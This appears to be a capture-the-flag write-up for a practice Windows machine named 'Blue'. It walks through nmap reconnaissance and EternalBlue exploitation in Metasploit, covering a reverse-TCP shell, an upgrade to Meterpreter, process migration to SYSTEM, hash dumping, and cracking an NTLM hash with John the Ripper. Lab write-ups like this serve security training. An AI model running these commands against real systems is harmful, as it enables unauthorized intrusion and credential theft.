




# Blue
# Recon

To begin, run `nmap -sC -sV -vv -oN nmap/init [IP_ADDR]` to identify any open ports or potentially vulnerable services. This scan returns nine open ports, three of which are below port number one thousand.

Following the theme of the room, run `msfconsole` and then search `eternalblue`. To check that this machine is vulnerable to this particular exploit, run `use auxiliary/scanner/smb/smb_ms17_01`. This will return confirmation that the machine is vulnerable to this exploit.


*Fig I. The scan result from the msfconsole module.*

# Exploitation

Exploitation

To exploit this, run `use exploit/windows/smb/ms17_010_eternalblue`. To use this, run `set RHOSTS [TARGET_IP]`. If running on your own machine, and not the THM machine, also run `set LHOST [YOUR_IP]". Next, as recommended by the room, run `set payload windows/x64/shell/reverse_tcp`.

Once run, a shell should be received on the `msfconsole`.


*Fig II. The exploit running successfully against the target.*

To convert this to Meterpreter, first background the shell with `Ctrl-Z`. Now, in `msfconsole` run `use post/multi/manage/shell_to_meterpreter`. The only option required here is `set SESSION 1`. To check the current session ID, run `sessions`. If this is successful, a new session should be created with the ID 2 and the type `meterpreter x64/windows`.


*Fig III. The sessions present in msfconsole after successfully upgrading the shell.*

To verify that the session has been escalated, run `sessions -i 2` to switch to the Meterpreter session and then run `guid` which should show the current session is as `NT AUTHORITY\SYSTEM`. Now, to ensure that Meterpreter is running in a system process, it should be migrated to an existing process running as system. First, use `ps` to list the current running processes and identify any running as system (like `cmd.exe` or `conhost.exe`). To migrate the process, run `migrate [PROCESS ID]`.


*Fig IV. The successful migration of the Meterpreter process.*

From Meterpreter, run `hashdump` to get the password hashes from the machine. With this output, the non-default user `“Jon”` and his password has can be seen. This shoud be saved to a file called `jhash.txt`. This can be cracked with John the Ripper by feeding it the NTLM portion of the hash. To do this, delete the contents of the created `jhash.txt` except for the `“ffb43f0de35be4d9917ac0cc8ad57f8d”` portion. Run the following in John to crack the hash:

```bash
john —wordlist=/usr/share/wordlists/rockyou.txt —format=NT jhash.txt
```

<br/>This should return the correct password very quickly. To collect the flags, jump back into Meterpreter with `sessions -i 2` and find the flag in the system root (`C:\`). The second flag can be found in the Windows SAM config located at `C:\Windows\system32\config`. The final flag can be found by simply running `search -f flag3.txt`.